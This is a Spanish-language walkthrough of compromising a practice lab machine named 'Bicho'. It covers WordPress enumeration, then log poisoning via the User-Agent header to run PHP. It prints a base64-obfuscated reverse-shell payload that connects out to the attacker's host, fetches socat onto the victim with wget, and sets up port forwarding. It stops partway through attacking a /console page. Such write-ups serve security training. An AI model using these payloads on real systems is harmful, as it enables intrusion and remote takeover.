




# 🧠 **Informe de Pentesting – Máquina: Bicho**

### 💡 **Dificultad:** Fácil


---

## 📝 **Descripción de la máquina**


---

## 🎯 **Objetivo**

---

## ⚙️ **Despliegue de la máquina**

Se descarga el archivo comprimido de la máquina vulnerable y se lanza el contenedor Docker mediante el script incluido:

```bash
unzip bicho.zip
sudo bash auto_deploy.sh backend.tar
```



---

## 📡 **Comprobación de conectividad**

Verificamos que la máquina se encuentra activa respondiendo a peticiones ICMP (ping):

```bash
ping -c1 172.17.0.2
```


---

## 🔍 **Escaneo de Puertos**

Realizamos un escaneo completo para detectar todos los puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

**Puertos detectados:**

* `22/tcp`: SSH
* `80/tcp`: HTTP


Luego, analizamos los servicios y versiones asociados a esos puertos:

```bash
nmap -sCV -p22,80 172.17.0.2 -oN target.txt
```


---

En el escaeno se encontro un dombre de dominio y lo agregamo a nano /etc/hosts 172.17.0.2 bicho.dl


---
Al entrar http://172.17.0.2 encontramos una pagina de bienbenida


Al solo tener disponible una pagina web busque mas inforamcion al realizar fuzzin no se encontro nada pero use whatweb '172.17.0.2' y encontre que trabaja con WordPress y al buscar alguna vulnerabilidad con searchsploit WordPress 6.6.2 encontre que puede 
ser vulnerable a InyeccionSQL


Use wpscan --url http://bicho.dl/ --enumerate u para escanear el sitio WordPress y descubrir los nombres de usuario registrados en este caso se encotro el usuario bicho y se encontraron varios directorios ocultos tambien.


hicimos un fuzzin a gobuster dir -u  http://bicho.dl/wp-content/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt el directorio /wp-content/ se encontro en la busqueda de usuario 
anteriror y se encontraron:
/index.php           
/themes               
/uploads             
/plugins         
/upgrade            
/fonts                


Encontramos http://bicho.dl/wp-content/debug.log cuando hisimos en escaneo de worplasse y nos encontramos el intento de inicio de sesion que se realizo con wpscan --url http://bicho.dl/ --enumerate u


Se intentara hacer un log poisoning https://lathack.com/vulnerabilidad-log-poisoning/ Se analiza WordPress que muestra IP, User-Agent y usuario autenticado en `<pre>`. Si no hay filtrado adecuado, un atacante podría inyectar código malicioso 
en el User-Agent y verificar si se ejecuta desde los logs nos dijijimos a http://bicho.dl/wp-login.php que es el archivo de login por defecto de WordPress, ubicado en la raíz. Se usa para autenticar usuarios y puede registrar cabeceras manipuladas.


---



Nos vamos a burpsuite y interceptamos la peticion de inicio de sesion y lo mandamos al repeter


---
Peticion interceptada y mandada a repeter


Cambiamos User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:138.0) Gecko/20100101 Firefox/138.0 por: User-Agent: <?php phpinfo();?> y mandamos la nueva peticion


Al recargar http://bicho.dl/wp-content/debug.log y aceptar la peticion en burpsuite en proxy podemos ver las espesificiones de php, Log Poisoning (envenenamiento de logs), donde el objetivo es que código inyectado en los headers HTTP (como User-Agent) se ejecute al ser leído desde los logs, si el servidor permite interpretarlos como código PHP.


Nos ponemos en modo escuha:  sudo nc -lvnp 443

Ahora hacemos una inyección de código PHP que ejecuta un comando codificado en Base64, y luego lo pasa a bash Se logra inyectar este código PHP en los logs o en algún archivo .php que luego puedas ejecutar vía navegador, y si el sistema permite conexiones salientes, entonces:
Al visitar ese archivo (http://bicho.dl/wp-content/debug.log), el servidor intentará conectarse de vuelta a tu máquina atacante (192.168.1.84, puerto 443).
<?php echo `printf c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjg0LzQ0MyAwPiYx | base64 -d | bash`; ?>

Se muestra que la revelsell se ejecuto con exito, nos vamos a proxi y aceptamos la peticion y se abrita la termianl


---


### 🔍 Enumeración de puertos

Para ver los puertos abiertos en el servidor, ejecutamos:

```bash
netstat -tuln
```

🔎 **Salida relevante:**

```
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN     
```

📌 *Explicación:* El puerto **5000** está expuesto solo localmente (`127.0.0.1`), por lo tanto, no podemos acceder directamente desde fuera del servidor. Será necesario un **port forwarding** para reenviarlo a nuestro equipo.

---

### 🔁 Transferencia de `socat`

Como la máquina víctima **no tiene `socat` instalado**, lo transferimos desde nuestra máquina:

#### En el host atacante:

```bash
cp /usr/bin/socat .
python3 -m http.server
```

📌 *Explicación:* Esto sirve el binario `socat` por HTTP desde el directorio actual.

---

#### En la máquina víctima:

```bash
cd /tmp
wget http://<IP>:8000/socat
chmod +x socat
```

📌 *Explicación:* Descargamos y damos permisos de ejecución al binario en `/tmp`.

---

### 🌐 Port Forwarding

Con `socat`, reenviamos el puerto 5000 de la víctima hacia el 7755, accesible remotamente:

```bash
./socat TCP-LISTEN:7755,fork TCP:127.0.0.1:5000
```

---

### ⚠️ Error de librería faltante

Al ejecutar `socat`, puede aparecer el siguiente error:

```bash
./socat: error while loading shared libraries: libwrap.so.0: cannot open shared object file: No such file or directory
```

📌 *Explicación:* `socat` necesita la biblioteca `libwrap.so.0`, que no está presente en la máquina víctima.

---

### ✅ Solución

#### 1. **Buscar la librería en tu máquina:**

```bash
find /usr -name libwrap.so.0
```

#### 2. **Copiarla al servidor web:**

```bash
cp /usr/lib/x86_64-linux-gnu/libwrap.so.0 .
```

#### 3. **Activar servidor web:**
```bash
python3 -m http.server 8000
```

#### 4. **Descargarla en la víctima:**

```bash
wget http://<IP>:8000/libwrap.so.0 -O /tmp/libwrap.so.0
```

#### 5. **Exportar variable de entorno para encontrar la librería:**

```bash
export LD_LIBRARY_PATH=/tmp
```
 #### 6. ** Realizar la tunelizacion del puerto:**
 ```bash
 ./socat TCP-LISTEN:7755,fork TCP:127.0.0.1:5000 
```

📌 *Con esto, `socat` debería ejecutarse correctamente.*


---


Si nos vamos a http://172.17.0.2:7755/ vemos una pagina


Usamos gobuster dir -u  http://172.17.0.2:7755/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt para hacer fuzzin y encuentra /console
Y ahora vamos ha usar em mismo prosedimiento con burpsuite vamos a capturar el trafico de http://172.17.0.2:7755/console y mandarlo a repeter


